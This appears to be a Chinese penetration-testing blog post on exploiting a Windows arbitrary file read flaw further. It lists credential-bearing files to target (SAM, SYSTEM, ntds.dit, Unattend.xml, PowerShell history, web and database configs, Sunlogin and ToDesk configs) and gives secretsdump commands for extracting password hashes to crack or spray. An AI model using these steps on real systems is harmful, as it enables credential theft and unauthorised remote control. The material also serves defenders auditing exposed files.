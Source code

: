 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg5MDA5NzUzNA==&mid=2247489440&idx=1&sn=52e46ab1d65d62e5eca08cc8076fb77c

#  Windows 任意文件读取漏洞如何扩大战果？  
 藏剑安全   2025-07-21 01:31  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4nXTKcMNvDAEXiceibEJfeibc5vYVq6g6SOyj19zpUQM9Jxa2bByQjXPXiaNsmx8zYhYTJvartCEVATXYXibwbKwiaJw/640?from=appmsg "")  
  
.  
  
.  
  
.  
  
.  
  
.  
  
前言  
  
.  
  
.  
  
.  
  
.  
  
.  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/mFOgxUsUkK6icf3ibrBMuZZq63JMOC01a9fmliam6Cn8ahdibjl5p0nicS5wGMic1lQxjO1K5ibaQByhNdW2DjulfhdIg/640?from=appmsg "")  
  
  
内 x 通，这么多年一直存在的洞，闲下来研究了一下，怎么通过任意文件读取漏洞去扩大战果，如有错误，欢迎指出。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4nXTKcMNvDAEXiceibEJfeibc5vYVq6g6SOyj19zpUQM9Jxa2bByQjXPXiaNsmx8zYhYTJvartCEVATXYXibwbKwiaJw/640?from=appmsg "")  
  
.  
  
.  
  
.  
  
.  
  
.  
  
扩大战果  
  
.  
  
.  
  
.  
  
.  
  
.  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/mFOgxUsUkK6icf3ibrBMuZZq63JMOC01a9fmliam6Cn8ahdibjl5p0nicS5wGMic1lQxjO1K5ibaQByhNdW2DjulfhdIg/640?from=appmsg "")  
  
  
1.hosts 文件  
  

```
C:\Windows\System32\drivers\etc\hosts
```

  
  
2.PowerShell 命令历史  

```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

  
3.cmd日志  

```
C:\Windows\System32\winevt\Logs\Microsoft-Windows-CommandProcessor%4Operational.evtx 
```

  
同时，这个路径下有很多日志文件  

```
C:\Windows\System32\winevt\Logs\
```

  
下载后使用Event Viewer或者LogParser读取.evtx文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/H7ec9FOh7vr1QzjDwFibicHt6L7YvdAh6pvwmUibJUbyVb3qRmq2bJuEPibwfF3r7lhnLMBxzK4TAPGEAgQ6BzhhJQ/640?wx_fmt=png&from=appmsg "")  
  
4.可能存在 Windows应答文件  

```
C:\\Windows\\Panther\\Unattend.xml
```

  
这个文件是 Windows 系统安装或部署过程中使用的无人值守应答文件，包含诸如用户名、计算机名、产品密钥、网络设置等自动化配置。系统安装时会自动读取该文件，以实现无需人工干预的自动化安装或系统初始化  
  
很小的概率有，但是值得一试，里面可能有密码文件  
  
5.SAM 文件  
  
需要 system 权限  

```
C:\Windows\System32\config\SAM
```


```
C:\\Windows\\System32\\config\\SYSTEM
```


```
读hash
python3 secretsdump.py -sam SAM -system SYSTEM LOCAL
```

  
可以拿impacket 套件中的secretsdump 提取hash，然后拿来破解hash，如果能跑出来密码，并且开放 rdp，可以爽歪歪，也可以 hash 喷洒  
  
6.如果有 Web 端，读源码之类的审计  
  
这个可以通过猜路径或者尝试抛出报错  
  
  
7.数据库配置文件  

```
C:\Windows\my.ini
```

  
分为两个，如果有网站路径，可以尝试碰撞一下 config文件，例如 config.php，里面会记录一些数据库账号密码  
  
  
8.web.config  
  
可能有一些数据库配置信息，需要根据网站路径动态调整  
  
  
9.一些配置文件  
  
例如  
  
C:\Windows\my.ini  
  
10.尝试爆一下 nginx 配置文件  
  
现在很多网站都设置了一些二级目录三级目录，使用 nginx 进行反代，如果可以读到 nginx 文件，可以进一步扩大攻击面。  
  
11.常用文件名  
  
桌面，可以收集一下常用文件名，例如"DMZ.xlsx"、"密码.txt"  
  
12.域控读取所有用户 hash  

```
C:\Windows\NTDS\ntds.dit
C:\Windows\System32\config\SYSTEM
python secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

  
ntds.dit 中的 hash 被加密，需要 SYSTEM 文件中包含的 BootKey 来解密  
  
如果目标机器是域控机器的话，可以读取所有用户的 Hash。  
  
13.远控工具低版本 config文件  
  
例如，向日葵，ToDesk 等  
  
向日葵安装版  

```
C:\Program Files\Oray\SunLogin\SunloginClient\config.ini
```

  
向日葵便携版  

```
C:\ProgramData\Oray\SunloginClient\config.ini
```

  
读取后配合 Github 上工具  
  
https://github.com/wafinfo/Sunflower_get_Password  
  
进行提取，然后找个客户端直接远控  
  
  
ToDesk安装版  

```
C:\Program Files\ToDesk\config.ini
```

  
Todesk便携版  

```
C:\ProgramData\ToDesk\config.ini
```

  
具体参考文章  

```
https://blog.csdn.net/2301_80520893/article/details/136021349
```

  
  
如果还有的话，欢迎留言区补充  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
**推荐阅读**  
  
**内推|长亭科技2025届秋招开启，附内推码~**  
  
  
**你能拿她学校的shell，但永远拿不了她的shell******  
  
  
**渗透实战|记一次简单的Docker逃逸+反编译jar接管云主机**  
  
  
  
**渗透实战|NPS反制之绕过登陆验证**  
  
  
**渗透实战|记一次曲折的EDU通杀漏洞挖掘**  
  
  
**渗透实战|记一次RCE+heapdump信息泄露引发的血案**  
  
  
**免责声明**  
  
由于传播、利用本公众号**藏剑安全**  
所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号**藏剑安全**  
及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
好文分享收藏赞一下最美点在看哦  
  
  
  

